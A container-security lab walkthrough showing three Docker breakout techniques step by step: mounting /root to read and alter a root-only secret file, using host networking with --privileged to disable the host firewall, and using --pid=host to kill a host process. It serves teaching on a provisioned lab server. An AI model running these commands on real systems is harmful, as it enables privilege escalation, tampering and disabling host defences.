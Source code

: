 # Container Breakout - Multiple Attacks

> #### Gaining access and tampering Host resources from a container

### **Lab Image : Containers**

---

## Volume Mounts

* Step 1: Validate that you are the `root` user on the provisioned server

```commandline
whoami
```

* Step 2: Validate that there's a secret file in the root directory

```commandline
cat /root/secret.txt
```

* Step 3: Switch to a non-root user

```commandline
sudo su we45
```
* Step 4: Validate that you are now `we45` user on the provisioned server

```commandline
whoami
```

* Step 5: Check if the non-root user(`we45`) has access to `docker`

```commandline
docker images
```

```commandline
docker ps
```

* Step 6: Try to read the contents of the `secret` file created by the `root` user

```commandline
cat /root/secret.txt
```

* Step 7: As a non-root user(`we45`), launch a container and expose the root-filesystem

```commandline
docker run -ti --rm -v /root:/hostFS/ alpine sh
```

* Step 8: On the container, try to read.

```commandline
cat /hostFS/secret.txt
```

* Step 9: On the container, try and edit the secret file.

```commandline
echo "Tampered data!!" >> /hostFS/secret.txt
```

* Step 10: Read the edited secret file from the container

```commandline
cat /hostFS/secret.txt
```

* Step 11: Exit from the container

```commandline
exit
```

* Step 12: Switch to `root` user

```commandline
exit
```

* Step 13: Now read the secret file as a `root` user

```commandline
cat /root/secret.txt
```

### Teardown

* Stop all containers

```commandline
clean-docker
```

---

## Host Network

---

* Step 1: Check `ufw` status

```commandline
ufw status
```

* Step 2: Enable `ufw`

```commandline
ufw enable
```
* Step 3: Check `ufw` status now

```commandline
ufw status
```

* Step 4: Launch a container binding the host network to the docker network

```commandline
docker run -d --name vul_flask -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
```

* Step 5: Exec into the container environment

```commandline
docker exec -ti vul_flask /bin/bash
```

* Step 6: Check `ufw` is it installed or not inside the container

```commandline
ufw status
```

* Step 7: Now install `ufw` inside the container

```commandline
apt update && apt install -y ufw
```

* Step 8: Check the status of the firewall inside the container

```commandline
ufw status
```

* Step 9: Disable the host machine firewall from a container

```commandline
ufw disable
```
* Step 10: Check the `ufw` status

```commandline
ufw status
```
* Step 11: Exit from the container

```commandline
exit
```

* Step 12: Now check `ufw` status in the server

```commandline
ufw status
```

### Teardown

* Stop all containers

```commandline
clean-docker
```

---

## PID Boundary

---

* Step 1: Navigate to the `Container Breakout` directory on the provisioned server

```commandline
cd /root/container-training/Container/container-breakout/
```

* Step 2: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 3: Create a "Super Important Process" that is to be tampered with

```commandline
command='while true\ndo\necho "Super important process running $$"\nsleep 3\ndone'
```

```commandline
printf "$command" > super_important_process.sh && chmod +x super_important_process.sh
```

* Step 4: Run the "Super Important Process" that was just created and fetch the `Process-ID`

```commandline
./super_important_process.sh
```

* Step 5: With `tmux`, switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 6: Launch a container and mount the host processes on the container

```commandline
docker run -ti --pid=host --privileged alpine sh
```

* Step 7: Inside the container, try to terminate the "Super Important Process" 

```commandline
kill <Super important process running PID>
```

* Step 8: Exit from the container

```commanline
exit
```

* Step 9: Exit from the `tmux`

```commanline
exit
```

```commanline
exit
```

## Teardown

* Stop all the containers

```commandline
clean-docker
```
